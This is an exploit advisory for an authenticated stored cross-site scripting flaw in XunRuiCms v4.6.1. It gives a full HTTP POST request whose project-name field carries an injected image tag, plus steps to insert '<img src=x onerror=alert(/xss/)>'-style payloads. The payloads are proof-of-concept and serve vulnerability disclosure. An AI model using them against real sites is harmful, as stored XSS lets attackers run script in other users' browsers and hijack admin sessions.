 # XunRuiCms Stored XSS (Authenticated)
#### Exploit Title: XunRuiCms Stored XSS (Authenticated) 
#### Version：Xunrui CMS Public Edition v4.6.1
#### Google Dork: N/A
#### Date: 09/21/2023
#### Tested on：Apache2.4.39，Mysql5.7.26，PHP7.4.3
#### Software Link: https://www.xunruicms.com/down.php

#### Description：XunRuiCms has a storage type xss vulnerability when editing the project name in the project settings tab after logging into the management backend.

#### Payload used:

POST /admin6318a5072e99.php?c=site_config&m=index&page=0 HTTP/1.1
Host: 192.168.1.3
Content-Length: 443
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.3
Referer: http://192.168.1.3/admin6318a5072e99.php?c=site_config&m=index
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-TW;q=0.8,zh;q=0.7
Cookie: debug-view=show; debug-bar-tab=ci-database; debug-bar-state=minimized; xunruicms_a5e842945753ffb75ab7ca63139e9dc6=vjdmkfi37qmcrqgd9ctqpdo36dva028k; a5e842945753ffb75ab7ca63139e9dc6_member_uid=1; a5e842945753ffb75ab7ca63139e9dc6_member_cookie=030e05f644709f5674507604a947c7ef
Connection: close

is_form=1&is_admin=1&is_tips=&csrf_test_name=ce1a1cdb6e1e2870bc90e07fb0d624e2&page=0&data%5BSITE_INDEX_HTML%5D=0&data%5BSITE_CLOSE%5D=0&data%5BSITE_CLOSE_MSG%5D=%5Bxss_clean%5D&data%5BSITE_NAME%5D=%E6%88%91%E7%9A%84%E9%A1%B9%E7%9B%AE%3CImg+src%3Dhttp%3A%2F%2F127.0.0.1%3A8000%2Finfo.html%3E&data%5BSITE_LANGUAGE%5D=zh-cn&theme=0&data%5BSITE_THEME%5D=default&data%5BSITE_TEMPLATE%5D=default&data%5BSITE_TIMEZONE%5D=8&data%5BSITE_TIME_FORMAT%5D=


#### Example：

1、Log in to the management backend

2、
Find the project settings and edit the project name, write in <img src=http://127.0.0.1:8000/info.html> or <img src=x onerror=alert(/xss/)>.
![2.png](./2.PNG)


<br />
3、Successfully accessed！

![22.png](./22.PNG)





















